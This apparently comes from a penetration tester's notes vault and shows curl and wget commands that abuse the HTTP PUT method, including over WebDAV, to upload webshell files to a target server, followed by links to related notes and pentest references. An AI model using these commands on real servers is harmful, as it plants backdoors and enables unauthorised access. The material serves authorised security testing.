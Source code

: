 # Manual

```
$ wget --method=PUT --post-file=file.txt http[s]://<IP>
```

```
$ curl -T 'webshell.txt' http[s]://<IP>

$ curl -T webshell.php http://<IP>/webdav/webshell.php -u <username>:<password> -vvv
```

```
$ curl -v -X PUT 'http://<IP>/webshell.php' -d @webshell.php
```

```
$ curl -v -X PUT 'http://<IP>/webshell.php' --data-binary @webshell.php 
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/A - Information Gathering/0x02 - Active Fingerprinting/Network Ports/Cross Platform/HTTP/03 - Detecting HTTP Methods/Manual|Active Fingerprinting: HTTP Methods]]

- [[02 - PUT Upload|Vulnerability Assessment: PUT Upload]]

### Hacktricks

- [Hacktricks: PUT Method WebDAV](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/put-method-webdav.html)

### Hacking Articles

- [Hacking Articles: Multiple Ways to Exploiting PUT Method](https://www.hackingarticles.in/multiple-ways-to-exploiting-put-method/)